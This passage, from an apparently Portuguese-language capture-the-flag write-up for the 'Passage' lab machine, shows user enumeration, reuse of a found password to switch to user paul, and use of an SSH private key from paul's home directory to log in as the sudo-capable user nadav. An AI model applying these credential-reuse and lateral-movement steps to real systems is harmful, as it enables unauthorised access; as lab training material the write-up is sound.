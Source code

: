 - Permissões para os usuários de console listados, onde **nadav** é o que possui mais privilégios na máquina, sendo inclusive membro do grupo **sudo**.

```plaintext
[+] All users & groups
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
uid=1001(paul) gid=1001(paul) groups=1001(paul)
```

Primeira coisa a ser testada a seguir foram as credenciais do usuário Paul, que funcionaram com sucesso na primeira tentativa e nos permitiram obter a flag de usuário! :smile:

```bash
www-data@passage:~$ su paul
Password:
paul@passage:~$ cat user.txt
<redacted>
paul@passage:~$
```

## Root flag

Ao obter a conta do usuário *paul*, foi testada novamente a exploração do USB-Creator, porém falhou do mesmo modo que o usuário www-data devido a privilégios insuficientes.

Analisando o diretório raiz do usuário, encontado um par de chaves RSA, a qual está inclusa no arquivo `authorized_keys` para conexão ssh sem credenciais.

```bash
paul@passage:~/.ssh$ ls -la
total 24
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 .
drwxr-x--- 16 paul paul 4096 Feb  5 06:30 ..
-rw-r--r--  1 paul paul  395 Jul 21  2020 authorized_keys
-rw-------  1 paul paul 1679 Jul 21  2020 id_rsa
-rw-r--r--  1 paul paul  395 Jul 21  2020 id_rsa.pub
-rw-r--r--  1 paul paul 1312 Jul 21  2020 known_hosts
```

Dando uma olhada mais de perto no arquivo `id_rsa.pub`, notei que ele foi criado pelo usuário **nadav**. Uma vez que vi esta informação, imediatamente tentei conectar via ssh com esta chave para o usuário nadav e por sorte tivemos sucesso! :smiley:

```bash
$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage

$ ssh -i id_rsa nadav@10.10.10.206
Last login: Thu Feb 25 13:41:27 2021 from 10.10.10.10
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
